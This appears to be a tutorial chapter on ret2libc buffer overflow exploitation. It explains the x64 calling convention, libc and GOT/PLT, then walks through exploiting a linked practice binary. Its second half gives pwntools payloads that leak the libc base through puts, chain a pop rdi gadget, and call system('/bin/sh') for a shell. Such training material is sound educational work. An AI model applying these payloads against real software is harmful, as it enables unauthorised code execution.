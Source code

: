 <div align='center'>

# **Buffer Overflow: Ret2libc**

</div>

## **1. Prerequisite Knowledge**

## **1.0 Previous Chapter**

[Chapter 10](./Chapter10_Introduction_to_Buffer_Overflows.md)

[Chapter 12](./Chapter12_Linux_Buffer_Overflows.md)

### **1.1 Linux x64 Calling Convention**

In 64-bit Linux system, function arguments of type integer/pointers are passed to the callee function in the following way:
- Arguments 1-6 are passed via registers RDI, RSI, RDX, RCX, R8, R9 respectively
- Arguments 7 and above are pushed on to the stack.

Example:

```c
#include <stdio.h>

int test(int a, int b, int c, int d, int e, int f, int g, int h, int i)
{
    int a2 = 0x555577;
    return 1;
}

int main(int argc, char *argv[])
{
    test(0x1, 0x2, 0x3, 0x4, 0x5, 0x6, 0x7, 0x8, 0x9);
    return 1;
}

// compile with gcc stack.c -o stack
```

**Inside the debugger**

![](./img/Bonus/1.png)

**Inside the test() function**

![](./img/Bonus/2.png)

**Stack frame of main() function**

![](./img/Bonus/3.png)

![](./img/Bonus/4.png)

### **1.2. Libc**

Libc is a library that contains the standard library functions for the C programming language. It defines built-in functions such as `printf()`, `malloc()`, `strcpy()`, etc. Libc is loaded into memory when a program is executed. The memory address of libc is different for each system. We can find the libc address by using the `ldd` command.

![](./img/Bonus/5.png)

## **1.3. Global Offset Table (GOT) and Procedure Linkage Table (PLT)**

The Global Offset Table is a section inside of programs that holds addresses of functions that are dynamically linked

![](./img/Bonus/6.png)

Procedure Linkage Table is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time

![](./img/Bonus/7.png)

The first time these functions (gets, scanf, etc…) are called in the program, there is an entry in PLT for this function. This is a pointer pointing to an address in GOT. GOT has the address pointing to the function directly in the Libc. So next time the function gets() or other functions is called, It doesn’t need to go into Libc for this , rather it will use the PLT to get the function address easily


## **2. Ret2libc**

**Vulnerable binary**

https://github.com/Hellsender01/Youtube/tree/main/Binary%20Exploitation/8.%20Ret2PLT

### **2.1. General Idea**

![](./img/Bonus/8.png)

- EIP is overwritten with address of the `system()` function located inside libc;
- Right after the address of `system()`, there's address of the function `exit()`, so that once `system()` returns, the vulnerable program jumps the `exit()`, which also lives in the libc, so that the vulnerable program can exit gracefully;
- Right after the address of `exit()`, there's a pointer to a memory location that contains the string `/bin/sh`, which is the argument we want to pass to the `system()` function.

**Finding the offset to trigger segmentation fault: at 40**

![](./img/Bonus/9.png)

**Finding pop_rdi gadget**

We need to find the address of the `pop rdi; ret` gadget in order to overwrite the EIP. 

```bash
ropper --file=ret2plt --search "pop rdi"
```

![](./img/Bonus/10.png)

We can see that the address of the `pop rdi; ret` gadget is `0x00000000004012c3`.

When EIP is overwritten with the address of the `pop rdi; ret` gadget, the rdi register will be overwritten. Therefore, we effectively control the argument of the function.

**Leaking the address of libc**

We will exploit the vulnerability to call `puts()` with the GOT address of `puts()` as the argument. From the output, we can calculate the address of libc because the offset between the address of `puts()` in libc and the address of `puts()` in the GOT table is fixed.

```python
pop_rdi = pack(0x00000000004012c3)
puts_plt = pack(elf.plt['puts'])
puts_got = pack(elf.got['puts'])

payload = cyclic(40) + pop_rdi + puts_got + puts_plt

...

leak = io.recvline().split(b'\n')[0]
leak = u64(leak.ljust(8, b'\x00'))
libc.address = leak - libc.symbols['puts']
```

**Reuse the main function**

After thes address is leaked, the binary doesn't know where to return and this crashes our program. To stop this from happening we use the starting address of the main function as a return point

```python
main = pack(elf.symbols['main'])

payload = cyclic(40) + pop_rdi + puts_got + puts_plt + main
```

![](./img/Bonus/11.png)

**Overwrite EIP with the address of system()**

We will call `system()` with the argument `/bin/sh` to get a shell.

Note: We need the address of the `ret` gadget (0x000000000040101a) to make sure that the stack is aligned properly.

![](./img/Bonus/12.png)


```python
bin_sh = pack(next(libc.search(b'/bin/sh')))
system = pack(libc.symbols['system'])
ret = pack(0x000000000040101a)

payload = cyclic(40) + ret + pop_rdi + bin_sh + system
```

![](./img/Bonus/13.png)